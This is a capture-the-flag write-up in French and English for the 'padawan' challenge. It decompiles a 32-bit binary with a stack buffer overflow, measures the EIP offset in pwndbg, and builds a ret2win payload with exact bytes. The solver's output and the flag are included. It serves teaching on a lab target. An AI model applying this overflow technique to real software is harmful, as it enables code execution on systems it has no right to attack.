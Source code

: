 # Padawan

## Write-up FR

Le binaire padawan est un ELF x86, sans stack canary, sans PIE et avec NX activé.

En l'analysant avec Ghidra, on découvre une vulnérabilité de type buffer overflow dans la variable `local_16` de la fonction `func` :
```c
void func(void)

{
  char local_16 [14];
  
  puts("What is your name young padawan?");
  fgets(local_16,0x28,_stdin);
  return;
}
```
De plus, en examinant les autres fonctions du programme, on remarque la présence de la fonction `win` :
```c
void win(int param_1,int param_2)

{
  if ((param_1 == 0x4d2) && (param_2 == 0x162e)) {
    puts("You did it, can you feel the Force ?");
    system("cat ./flag.txt");
  }
  return;
}
```
Il s'agit donc d'un exploit de type `ret2win`, où il faut fournir les bons paramètres lors de l'appel à `win`.

Dans un premier temps, on détermine l'offset nécessaire pour contrôler `eip` :
```bash
pwndbg> b *func+67
Breakpoint 1 at 0x8049252
pwndbg> run < <(echo -en "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A")
...
ESP  0xffffca0c ◂— 'a7Aa8Aa9Ab0Ab1Ab2'
 EIP  0x8049252 (func+67) ◂— ret 
─────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────
 ► 0x8049252 <func+67>    ret                                <0x61413761>
```
On voit alors que l'on contrôle `eip` après avoir débordé de `22` octets.
Ensuite, il nous faut appeler la fonction win avec les bons arguments. En mode x86, l'ordre des arguments est le suivant :

- adresse de retour
- param1
- param2

Ainsi, le payload que l'on enverra est constitué de : 
- a*22
- ret_addr
- 0x4d2
- 0x162e

Ce qui donne le payload suivant : 
```
aaaaaaaaaaaaaaaaaaaaaa\x96\x91\x04\x08BBBB\xd2\x04\x00\x00\x2e\x16\x00\x00
```
```bash
$ python sol.py 
[*]
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 4446: Done
[*] Switching to interactive mode
You did it, can you feel the Force ?
polycyber{y0ung_p@d@w@nn}
[*] Got EOF while reading in interactive
```

## Write-up EN

The padawan binary is an ELF x86, without stack canary, without PIE, and with NX enabled.

When analyzing it with Ghidra, we find a buffer overflow vulnerability in the `local_16` variable of the `func` function :
```c
void func(void)

{
  char local_16 [14];
  
  puts("What is your name young padawan?");
  fgets(local_16, 0x28, _stdin);
  return;
}
```
Additionally, by examining other functions in the program, we notice the presence of the `win` function:
```c
void win(int param_1, int param_2)

{
  if ((param_1 == 0x4d2) && (param_2 == 0x162e)) {
    puts("You did it, can you feel the Force?");
    system("cat ./flag.txt");
  }
  return;
}
```
This is a `ret2win` exploit, where we need to provide the correct parameters when calling `win`.
First, we determine the offset needed to control the `eip` :
```bash
pwndbg> b *func+67
Breakpoint 1 at 0x8049252
pwndbg> run < <(echo -en "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A")
...
ESP  0xffffca0c ◂— 'a7Aa8Aa9Ab0Ab1Ab2'
 EIP  0x8049252 (func+67) ◂— ret 
─────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────
 ► 0x8049252 <func+67>    ret                                <0x61413761>
```
We can see that we control `eip` after overflowing `22` bytes.

Next, we need to call the win function with the correct arguments. In `x86` architecture, the order of the arguments is as follows:
- return address
- param1
- param2
Therefore, the payload we send will consist of :
- a*22
- ret_addr
- 0x4d2
- 0x162e
This gives the following payload :
```
aaaaaaaaaaaaaaaaaaaaaa\x96\x91\x04\x08BBBB\xd2\x04\x00\x00\x2e\x16\x00\x00
```
```bash
$ python sol.py 
[*]
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 4446: Done
[*] Switching to interactive mode
You did it, can you feel the Force ?
polycyber{y0ung_p@d@w@nn}
[*] Got EOF while reading in interactive
```

## Flag

`polycyber{y0ung_p@d@w@nn}`